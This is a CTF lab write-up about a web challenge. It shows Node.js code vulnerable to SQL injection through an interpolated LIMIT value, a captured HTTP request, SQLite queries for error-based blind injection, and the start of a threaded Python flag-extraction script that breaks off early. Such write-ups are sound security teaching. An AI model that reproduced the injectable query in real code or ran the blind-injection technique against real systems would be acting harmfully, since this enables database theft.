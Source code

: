 And then I can access post ID 1 via `/view/1`

### SQLi

Let's see the code in `database.js` function `getSubmissionComments` is vulnerable to SQLinjection and call on api end-point `/api/comment/entries`

```js
  async getSubmissionComments(submissionID, pagination = 10) {
    return new Promise(async (resolve, reject) => {
      try {
        const stmt = `SELECT content FROM comments WHERE id_submission = ${submissionID} LIMIT ${pagination}`;
        resolve(await this.db.all(stmt));
      } catch (e) {
        reject(e);
      }
    });
  }
```

I try to add comment at the code and then see the reqest on burp as shown below:

```txt
POST /api/comment/entries HTTP/1.1
Host: 94.237.58.173:38240
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.58.173:38240/view/1
Content-Type: application/json
Content-Length: 147
Origin: http://94.237.58.173:38240
Connection: keep-alive
Priority: u=4

{"submissionID":1,"pagination":"10"}
```

At this point I choose to inject the `pagination` field by trigger error base.

In sqlite when we sending `NULL` in `LIMIT` function it will trigger the error.

For example,

```sql
SELECT content FROM comments WHERE id_submission = 1 LIMIT 10; -- it fine
SELECT content FROM comments WHERE id_submission = 1 LIMIT NULL; -- to trigger error
```

That mean we can use if statement in sqlite to make blind injection.
And This is the exploit to obtain the flag.

```python
import string
import requests
import threading

possible = string.ascii_letters + string.digits + "{}_" + string.punctuation
host = 'http://94.237.58.173:38240/api/comment/entries'
headers = {
    "Content-Type": "application/json"
}
THREADS = 50
FILTER_RESPONSE = "wrong!"

flag = ['' for _ in range(THREADS)]

```